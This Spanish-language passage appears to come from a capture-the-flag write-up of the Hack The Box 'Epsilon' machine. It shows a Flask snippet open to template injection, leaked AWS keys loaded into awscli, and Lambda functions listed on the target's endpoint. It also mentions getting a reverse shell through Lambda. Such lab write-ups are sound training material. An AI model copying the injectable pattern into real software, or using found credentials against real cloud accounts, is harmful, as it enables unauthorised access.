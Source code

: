 ```PYTHON
            tmpl=render_template_string(message,costume=costume)
            return render_template('order.html',message=tmpl)
        else:
            return render_template('order.html')
    else:
        return redirect('/',code=302)
[...]
```
Revisando el otro archivo recuperado, obtenemos el nombre del dominio utilizado para conectarse a aws lamda, el cual es `cloud.epsilon.htb`, por lo tanto agregamos este subdominio a nuestro archivo de hosts (`/etc/hosts`).
## AWS Lambda

Con las credenciales previamente encontradas, es posible acceder a la llave secreta utilizada en el JWT.

Lo primero a realizar es colocar las credenciales en nuestro awscli.

```BASH
└─$ aws configure
AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [None]: us-east-1
Default output format [None]:                                 
```
Revisando la página de ayuda de lambda contamos con distintas opciones, de las cuales nos interesa el listar funciones. Para ello la sintaxis es la siguiente: `aws lambda list-functions`, pero en este caso es necesario especificar el url del endpoint debido a que no vamos a conectarnos directamente a los servidores de aws sino a la máquina objetivo.
```BASH
└─$ aws lambda list-functions --endpoint-url "http://cloud.epsilon.htb"
{
    "Functions": [
        {
            "FunctionName": "costume_shop_v1",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
            "Runtime": "python3.7",
            "Role": "arn:aws:iam::123456789012:role/service-role/dev",
            "Handler": "my-function.handler",
            "CodeSize": 478,
            "Description": "",
            "Timeout": 3,
            "LastModified": "2022-09-15T04:27:49.044+0000",
            "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "d342c387-f0a9-426b-8fc4-0881bd471b35",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```
*Investigando un poco más sobre lambda sabemos que es posible obtener una reverse shell por medio de las funciones pero en este caso al ser un servicio customizado, no se incluye la opción para ejecutar las funciones, entonces seguimos por otra ruta.*
